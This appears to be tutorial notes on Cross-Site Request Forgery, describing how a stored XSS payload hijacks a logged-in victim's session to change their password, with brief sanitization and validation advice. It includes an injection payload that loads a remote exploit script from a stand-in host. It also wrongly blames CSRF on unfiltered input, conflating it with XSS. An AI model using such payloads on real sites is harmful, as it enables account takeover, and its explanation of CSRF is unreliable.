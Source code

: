 # Cross-Site Request Forgery(CSRF)
CSRF is caused by unfiltered user input. CSRF attacks may utilize XSS vulnerabilities to perform certain queries, and **API** calls on a web application that victim is currently authenticated to. This would allow attacker to perform actions as the authenticated user. It may utilize other vulnerabilities to perform the same functions like utilizing HTTP parameters for attacks.

A common CSRF attack to gain higher privileged access to a web application is to craft a **JavaScript** payload that automatically change's the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page  (e.g. malicious comment containing the **JavaScript CSRF** payload), the **JavaScript** code would execute automatically. It would use the victim's logged-in session to change their password.
Once that is done , an attacker can login victim's account and control it.

**CSRF** can also be leveraged to attacks admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to gain control over the back-end-server(depending on the functionality provided to admins within given web application). Following this example instead of using **JavaScript** code that would return session cookie, we would load a remote **.js (JavaScript)** file as follows:
```html
"><script src=//www.example.com/exploit.js></script>
```
The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js requires the knowledge of this web application's password changing procedure and **APIs**. The attacker would need to create JavaScript code that replicate desired functionality and automatically carry it out;

## Prevention
Two main controls must be applied when accepting user interface :

||
--|--|
**Type | Description**
**Sanitization** | Removing special characters and non standard characters from users input before displaying it or storing it.
**Validation** | Ensuring that submitted user input matches expected format(e.g. wsubmitted email matches email format).




